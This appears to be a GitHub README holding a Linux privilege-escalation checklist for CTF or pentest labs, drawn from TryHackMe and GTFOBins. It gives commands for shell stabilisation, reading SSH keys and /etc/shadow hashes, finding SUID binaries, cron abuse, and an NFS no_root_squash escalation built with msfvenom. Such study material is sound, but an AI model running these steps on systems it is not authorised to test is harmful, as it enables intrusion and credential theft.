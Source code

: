 # Linux Local Enumeration Check List
## Author: JamesB9
## Description:
A list of steps I carry out once I have a basic shell on the target machine. I was able to create this list using information and resources provided from https://tryhackme.com/room/lle and https://gtfobins.github.io/


### Find id_rsa
id_rsa is a file containing the SSH private key for a user to use to sign into the machine via ssh without a password
It is usually found in the user's home directory within a .ssh/ folder.

### Create a more stable shell
There are many ways for this. A commands are listed below

    # Spawn Shell with Python
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # Execute bash script
    /bin/bash


### Find out system information
Once you have found out the operating system distro and version, you can then look for know exploits and vulnerabilities with it.
Commands for this are below

	#Prints name, version and other details about the machine and the OS running on it
	uname -a

### Check auto-generated bash files
Some files in linux are automatically generated and can leave useful clues for an attacker.
Some files to look for are:
- ~/.bash_history
- .bash_profile
- .bashrc

### Check sudo version
Check sudo version to see if it is out-of-date and therefore may have vulnerabilities. For example sudo versions < 1.8.28 are vulnerable to CVE-2019-14287, which is a vulnerability that allows to gain root access with 1 simple command.
Commands for this:

	sudo -V

### Check sudo permissions
Check the sudo permissions to see what commands the user can run with sudo without requiring a password. If any are found, check GTFOBins for how to exploit them.
Commands for this:

  sudo -l

### Check /etc/passwd
Check /etc/passwd to see if you can read and/or write to it. Writing to it allows easy escalation to root priviledges as you can just add a new line (new user) with root priviledges.
The format of a line in this file is as follows:

    goldfish:x:1003:1003:,,,:/home/goldfish:/bin/bash

1. (goldfish) - Username
2. (x) - Password. (x character indicates that an encrypted account password is stored in /etc/shadow file and cannot be displayed in the plain text here)
3. (1003) - User ID (UID): Each non-root user has his own UID (1-99). UID 0 is reserved for root.
4. (1003) - Group ID (GID): Linux group ID
5. (,,,) - User ID Info: A field that contains additional info, such as phone number, name, and last name. (,,, in this case means that I did not input any additional info while creating the user)
6. (/home/goldfish) - Home directory: A path to user's home directory that contains all the files related to them.
7. (/bin/bash) - Shell or a command: Path of a command or shell that is used by the user. Simple users usually have /bin/bash as their shell, while services run on /usr/sbin/nologin.

### Check /etc/shadow
Check /etc/shadow to see if you can read and/or write to it. This file stores all password hashes for the users of the machine. Once you have these, you may be able to decypher and brute-force them.
The format of a line in this file is as follows:

    goldfish:$6$1FiLdnFwTwNWAqYN$WAdBGfhpwSA4y5CHGO0F2eeJpfMJAMWf6MHg7pHGaHKmrkeYdVN7fD.AQ9nptLkN7JYvJyQrfMcfmCHK34S.a/:18483:0:99999:7:::

1. (goldfish) - Username
2. ($6$1FiLdnFwT...) - Password : Encrypted password.
Basic structure: **$id$salt$hashed**, The $id is the algorithm used On GNU/Linux as follows:
- $1$ is MD5
- $2a$ is Blowfish
- $2y$ is Blowfish
- $5$ is SHA-256
- $6$ is SHA-512
3. (18483) - Last password change: Days since Jan 1, 1970 that password was last changed.
4. (0) - Minimum: The minimum number of days required between password changes (Zero means that the password can be changed immidiately).
5. (99999) - Maximum: The maximum number of days the password is valid.
6. (7) - Warn: The number of days before the user will be warned about changing their password.

### Check /etc/hosts
/etc/hosts assigns names to IP addresses. This file may reveal other device's IP addresses on the network.

### Find logs, configuration files and backup files
These files could contain confidential information. Use the find command as shown below

	find / -type f -name *.log 2>/dev/null
	find / -type f -name *.conf 2>/dev/null
	find / -type f -name *.bak 2>/dev/null

### Find SUID files
SUID files are files that allow you to execute them with the priviledges of another user. Once found, use GTFOBins to find ways of exploiting these SUID binaries.
Find them by:

	find / -type f -perm -u=s 2>/dev/null

To find both SUID and SGID files and display them with extra information, the following command can be used.

  find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null

### View network configurations
Use the commands below to view port forwarding and therefore other machines on the network.

	netstat -at | less
	netstat -tulpn

### Cron Jobs
Cron Jobs are programs or scripts scheduled to run at times/intervals. Cron table files (crontabs) store job configs.
- If a script that is scheduled is writeable, it could be exploited to generate a root reverse shell.
- If the PATH variable in /etc/crontab has a path writeable by the user, you can create a script with the same name as one of the root cronjobs. This new script will be run instead of the original
- If possible, read the contents of the scripts to see whether the commands they use can be exploited. For example, tar with a wildcard (*) may be exploited with checkpoint variables.
View contents of the system-wide crontab with:

  cat /etc/crontab

### NFS
Have a look in the file /etc/exports and look for any directories with no_root_squash attribute. If there is a dir with this then files in it can be run as root so long as the files uploaded are done so by a root user.
Commands as follows:

  # LOCAL LINUX MACHINE:
  mkdir /tmp/nfs
  mount -o rw,vers=2 [IP]:[DIR] /tmp/nfs
  msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
  chmod +xs /tmp/nfs/shell.elf
  # TARGET LINUX MACHINE:
  [DIR]/shell.elf

### Kernel exploits
Kernel exploits can leave the system in an unstable state, which is why you should only run them as a last resort. You can run tools to find them on a system.

### USE TOOLS!
There are many tools to help linux privilege escalation. Some I've used are:
- LinEnum.sh (Linux Enumeration)
- LinPEAS.sh (Linux Privilege Escalation Awesome Scripts)
- lse.sh (Linux smart enumeration)

### Meterpreter shell
If you have a meterpreter shell on the system, the following commands can help identify ways of escalating privileges.

  run post/multi/recon/local_exploit_suggester
